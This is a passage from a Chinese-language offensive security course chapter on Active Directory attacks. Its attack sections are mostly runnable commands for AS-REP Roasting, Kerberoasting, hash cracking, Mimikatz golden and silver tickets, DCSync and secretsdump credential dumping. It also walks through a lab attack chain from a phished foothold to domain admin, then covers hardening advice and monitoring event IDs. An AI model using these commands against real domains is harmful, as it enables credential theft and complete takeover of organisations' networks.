   客户端身份证明，加密用 krbtgt 账户 hash
   "黄金票据" = 伪造 TGT
   
ST (Service Ticket)：
   访问具体服务的票据，加密用服务账户 hash
   "白银票据" = 伪造 ST
```

### 4.2.4 krbtgt 账户
```plain
krbtgt：域内特殊账户，其 hash 是 KDC 加密 TGT 的密钥
- 一旦泄露 krbtgt hash → 任意伪造 TGT → 拿下整个域（黄金票据）
- 微软建议定期重置 krbtgt 密码（两次重置才算完全轮换）
```

## 4.3 AS-REP Roasting
### 4.3.1 原理
部分用户设置了 **"Do not require Kerberos preauthentication"**（关闭预认证）。攻击者可以**不需要密码**直接向 KDC 请求这些用户的 AS-REP，其中包含用该用户 hash 加密的会话数据，离线爆破即可拿到密码。

### 4.3.2 利用
```bash
# impacket
GetNPUsers.py corp.local/user1:pass -dc-ip 10.10.0.1 -request

# Rubeus
Rubeus.exe asreproast /format:hashcat /outfile:hash.txt

# hashcat 爆破
hashcat -m 18200 hash.txt rockyou.txt
```

### 4.3.3 适用场景
+ 域内任意账户可触发
+ 需要知道哪些用户关闭了预认证
+ 默认所有账户都开启预认证，但管理员可能为兼容性关闭

## 4.4 Kerberoasting
### 4.4.1 原理
任何域用户可申请 SPN（Service Principal Name）服务的 ST 票据。ST 用**服务账户的 hash** 加密。攻击者离线爆破 ST 即可拿到服务账户密码。

### 4.4.2 利用
```bash
# impacket
GetUserSPNs.py corp.local/user1:pass -dc-ip 10.10.0.1 -request

# Rubeus
Rubeus.exe kerberoast /format:hashcat /outfile:hash.txt

# hashcat
hashcat -m 13100 hash.txt rockyou.txt
```

### 4.4.3 高价值目标
```plain
MSSQLSvc/*  ← SQL Server 服务账户（往往密码复杂度低）
HTTP/*      ← IIS 应用池
CIFS/*      ← 文件服务
HOST/*      ← 通用
```

## 4.5 黄金票据 / 白银票据
### 4.5.1 黄金票据（Golden Ticket）
**前提**：已拿到 **krbtgt** 账户的 hash（通过 DCSync 或抓 NTDS.dit）。

```bash
# 用 impacket
ticketer.py -nthash <krbtgt_hash> -domain-sid S-1-5-21-... -domain corp.local Administrator

# Mimikatz
kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-... /krbtgt:<hash> /ptt
```

伪造的 TGT 可以**任意访问域内任何服务**，且密码改了仍有效（除非 krbtgt 重置两次）。

### 4.5.2 白银票据（Silver Ticket）
**前提**：拿到某个**服务账户的 hash**（通过 Kerberoasting）。

```bash
# Mimikatz
kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-... /target:dc01.corp.local /service:cifs /rc4:<service_hash> /ptt
```

伪造的 ST 只能访问特定服务（如 CIFS）。

### 4.5.3 其他票据攻击
| 攻击 | 原理 |
| --- | --- |
| Skeleton Key | 注入域控 lsass，让所有账户通用密码 `mimikatz` |
| Diamond Ticket | 修改正常 TGT 内容 |
| DCSync | 模拟域控同步，远程读 NTDS.dit（不需要登域控） |


DCSync 命令：

```bash
# Mimikatz
lsadump::dcsync /domain:corp.local /user:krbtgt

# impacket
secretsdump.py -just-dc-user krbtgt corp.local/user1:pass@10.10.0.1
```

## 4.6 综合靶场搭建
### 4.6.1 选择一：GOAD（推荐）
**GOAD（Game Of Active Directory）**：开源的故意不安全的 AD 实验环境，包含 5 个 VM，覆盖：

+ 委派攻击
+ ACL 滥用
+ 不安全 GPO
+ 弱密码
+ Kerberoasting / AS-REP
+ NTLM Relay

```bash
git clone https://github.com/Orange-Cyberdefense/GOAD
cd GOAD
# 安装依赖
pip install -r requirements.txt
# 部署（需要 Vagrant + VirtualBox / Proxmox）
./goad.sh -t install -l GOAD -p virtualbox
# 约 1 小时部署
```

### 4.6.2 选择二：VulnLab AD 系列
VulnLab（付费，月费 10 欧）有完整的 AD 链路靶机，适合学习。

### 4.6.3 选择三：HackTheBox Pro Labs
`Dante` / `RastaLabs` / `Zephyr` 是高仿真企业内网实验室。

### 4.6.4 选择四：Docker 模拟（轻量）
```yaml
# docker-compose.yml（最小化 AD 实验）
version: '3'
services:
  dc:
    image: instantlinux/rsat-tools:latest
    container_name: dc01
    privileged: true
    hostname: dc01
    networks:
      adnet:
        ipv4_address: 10.20.0.10

  win10:
    image: windows:10-novnc
    container_name: win10
    networks:
      adnet:
        ipv4_address: 10.20.0.20

networks:
  adnet:
    driver: bridge
    ipam:
      config:
        - subnet: 10.20.0.0/24
```

> 注：完整 AD 需要正版 Windows Server 镜像，Docker 模拟仅做网络层实验。
>

### 4.6.5 实战场景演示（GOAD）
```bash
# 1. 拿到边界 PC 的普通用户 shell（钓鱼 / Webshell）
# 2. 信息收集
net user /domain
net group "Domain Admins" /domain

# 3. SharpHound 采集
SharpHound.exe -c All
# 导入 BloodHound 分析

# 4. 发现可攻击路径
#    user1 → PC01（local admin）
#    PC01 上 Administrator 在线 → Mimikatz 抓 hash
#    Administrator → DCSync 权限 → 拿到 krbtgt hash

# 5. 黄金票据
python ticketer.py -nthash <krbtgt_hash> -domain-sid S-1-5-... -domain corp.local Administrator
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass corp.local/Administrator@dc01
```

## 4.7 防御方案
### 4.7.1 域加固
```plain
┌──────────────────────────────────────────────┐
│ 1. 最小权限                                  │
│    - Domain Admin 仅在 DC 上登录              │
│    - 分层管理模型（Tier 0/1/2）              │
│    - 限制 DCSync 权限                        │
│                                              │
│ 2. LSA Protected Mode (RunAsPPL)             │
│    阻止非签名进程读 lsass                    │
│                                              │
│ 3. Credential Guard (Windows 10+)            │
│    凭据虚拟化隔离                            │
│                                              │
│ 4. SMB Signing                               │
│    防 NTLM Relay                             │
│                                              │
│ 5. 禁用 SMBv1 / 限制 NTLMv1                  │
│                                              │
│ 6. 强密码策略                                │
│    - 长密码 (>14 位)                         │
│    - 服务账户密码定期更换                    │
│    - 用 gMSA（组托管服务账户）               │
│                                              │
│ 7. 监控                                      │
│    - 异常 Kerberos 流量                      │
│    - DCSync 调用                             │
│    - lsass 进程访问                         │
│                                              │
│ 8. EDR / AV                                  │
│    - 拦截 Mimikatz / Cobalt Strike beacon    │
│                                              │
│ 9. 网络分段                                  │
│    - DC 单独 VLAN                            │
│    - 工作站不能直连 DC                       │
│                                              │
│ 10. 日志审计                                 │
│    - 开启 PowerShell ScriptBlock 日志        │
│    - Windows Event Forwarding (WEF)          │
│    - 定期巡检 BloodHound 路径                │
└──────────────────────────────────────────────┘
```

### 4.7.2 监控告警
```plain
事件 ID 4769：Kerberos 服务票据请求（Kerberoasting 频繁特征）
事件 ID 4768：Kerberos TGT 请求
事件 ID 4624：账户登录
事件 ID 4672：特权登录
事件 ID 4662：对象操作（DCSync 是 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2）
事件 ID 7045：服务创建（PsExec 痕迹）
```

### 4.7.3 真实案例
```plain
2020 SolarWinds：APT29 通过供应链进入企业，横向到 DC
2021 Colonial Pipeline：DarkSide 勒索，从内网一路到 OT
2022 Lapsus$：少年黑客社工员工，拿凭证进域
2023 MOVEit：Cl0p 利用文件传输漏洞，横向到核心
```

---

## 附录 A 必背 30 条
```plain
1. 内网渗透从"已立足"开始，目标是核心资产
2. 工作组逐台打，域一次性拿全网
3. 域控 = 域的核心，存所有用户 hash
4. NTDS.dit 是域控的 SAM，含所有用户 hash
5. whoami /priv 看 Windows 特权
6. SeDebugPrivilege 可调试任意进程
7. SeImpersonatePrivilege 可 JuicyPotato 提权
8. 隧道分正向 / 反向，根据出网方式选
9. FRP / Chisel 是最常用反向 SOCKS
10. suo5 是高效的 HTTP 隧道
11. dnscat2 / iodine 用于 DNS 出网
12. proxychains 让任意命令走代理
13. lsass.exe 存当前用户凭据
14. Mimikatz sekurlsa::logonpasswords 抓密码
15. procdump + Mimikatz 离线分析
16. NTDS.dit + SYSTEM = 所有域用户 hash
17. secretsdump 解析 NTDS.dit
18. Pass the Hash 用 NTLM hash 直接认证
19. PTH 工具：impacket-wmiexec / psexec
20. 横向：wmiexec 最隐蔽
21. CrackMapExec 是内网批量神器
22. BloodHound 用图数据库分析攻击路径
23. SharpHound 采集数据
24. Kerberos 三方：Client / KDC / Service
25. TGT 用 krbtgt hash 加密
26. ST 用服务账户 hash 加密
27. AS-REP Roasting：关闭预认证的账户
28. Kerberoasting：爆破 SPN 服务账户
29. 黄金票据 = 伪造 TGT，需 krbtgt hash
30. 白银票据 = 伪造 ST，需服务账户 hash
```

## 附录 B 课后作业
### 必做
1. 部署 GOAD 靶场（或 VulnLab AD 链），完成从普通用户到 Domain Admin 的全链路。
2. 用 Chisel + proxychains 完成内网扫描 + 横向 + 拿域控。
3. 用 Mimikatz 抓密码，用 impacket-wmiexec 做 PTH 横向。
4. 用 BloodHound 分析 GOAD，找到 3 条不同的攻击路径。

### 选做
5. 阅读《The Hacker Recipes》Active Directory 章节。
6. 学习 Rubeus 工具的命令，至少实现 AS-REP Roasting / Kerberoasting / PTT。
7. 研究 NTLM Relay 攻击（Responder + ntlmrelayx）。
8. 学习 PrintNightmare (CVE-2021-1675) 域内提权。

### 进阶
9. 学习 ADCS（Active Directory Certificate Services）攻击面（ESC1-ESC15）。
10. 学习 AD 委派攻击（非约束 / 约束 / RBCD）。
11. 学习 Kerberos Bronze Bit Attack (CVE-2020-17049)。
12. 阅读《Red Team Field Manual》整理内网命令清单。
